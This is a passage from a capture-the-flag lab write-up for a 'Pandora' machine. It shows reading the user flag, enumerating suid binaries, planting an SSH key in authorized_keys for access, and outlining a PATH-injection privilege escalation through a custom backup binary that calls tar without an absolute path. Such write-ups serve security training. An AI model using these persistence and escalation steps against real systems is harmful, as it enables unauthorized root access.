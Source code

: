 As matt we are now able to read the user flag.

```
matt@pandora:/var/www/pandora/pandora_console$ wc -c /home/matt/user.txt
33 /home/matt/user.txt
```


# Root

Checking for suid binaries as matt we find a custom and suspicious looking one in `/usr/bin/pandora_backup`.

## Path injection
```
matt@pandora:~$ find / -perm -4000 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

Since we are in a process that got forked by apache with suid disabled we need to get another connection to interact with it.
One way to do this is to generate a ssh key, dropping the public part it in matt's `.ssh` folder as `authorized_keys` and then logging in.

```
matt@pandora:/home/matt$ mkdir .ssh
matt@pandora:/home/matt$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICoU1zrB+cqbMiHQgnh6yc2ow/Re307t0JVC1Kiqiofa' > .ssh/authorized_keys
```

```
$ ssh -i matt matt@10.129.174.44
...[snip]...
matt@pandora:~$
```

Taking a closer look at the binary using `ltrace`, we see that it calls tar using system without specifying an absolute path.  This is vulnerable to path injection. The plan is to create our own "tar", give the path with the new "tar" priority and then run the suid binary.
